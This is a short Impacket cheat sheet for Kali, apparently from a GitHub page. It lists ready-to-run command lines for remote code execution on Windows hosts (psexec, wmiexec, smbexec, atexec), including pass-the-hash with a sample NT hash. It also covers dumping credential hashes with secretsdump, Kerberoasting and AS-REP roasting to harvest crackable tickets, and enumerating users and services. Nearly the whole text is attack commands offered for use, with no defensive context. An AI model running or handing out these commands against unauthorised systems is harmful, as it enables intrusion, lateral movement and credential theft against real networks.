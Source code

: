 # Impacket
Installed by default on KALI
Binaries installed in /usr/bin : 
List installed :   ls /usr/bin | grep -i impacket   
Can combine with rlwrap for better shells : rlwrap impacket-psexec administrator@192.168.ip -hashes :hashvalue

```bash
# RCE
impacket-psexec test.local/john:password123@10.10.10.1
impacket-psexec -hashes lmhash:nthash test.local/john@10.10.10.1
impacket-psexec -hashes 00000000000000000000000000000000:f0397ec5af49971f6efbdb07877046b3 beccy@172.16.6.240

impacket-wmiexec test.local/john:password123@10.10.10.1
impacket-wmiexec -hashes lmhash:nthash test.local/john@10.10.10.1

impacket-smbexec test.local/john:password123@10.10.10.1
impacket-smbexec -hashes lmhash:nthash test.local/john@10.10.10.1

impacket-atexec test.local/john:password123@10.10.10.1 <command>
impacket-atexec -hashes lmhash:nthash test.local/john@10.10.10.1 <command>

impacket-smbclient [domain]/[user]:[password/password hash]@[Target IP Address] #we connect to the server rather than a share
impacket-lookupsid [domain]/[user]:[password/password hash]@[Target IP Address] #User enumeration on target
impacket-services [domain]/[user]:[Password/Password Hash]@[Target IP Address] [Action] #service enumeration
impacket-secretsdump [domain]/[user]:[password/password hash]@[Target IP Address]  #Dumping hashes on target
impacket-GetUserSPNs [domain]/[user]:[password/password hash]@[Target IP Address] -dc-ip <IP> -request  #Kerberoasting, and request option dumps TGS
impacket-GetNPUsers test.local/ -dc-ip <IP> -usersfile usernames.txt -format hashcat -outputfile hashes.txt #Asreproasting, need to provide usernames list
```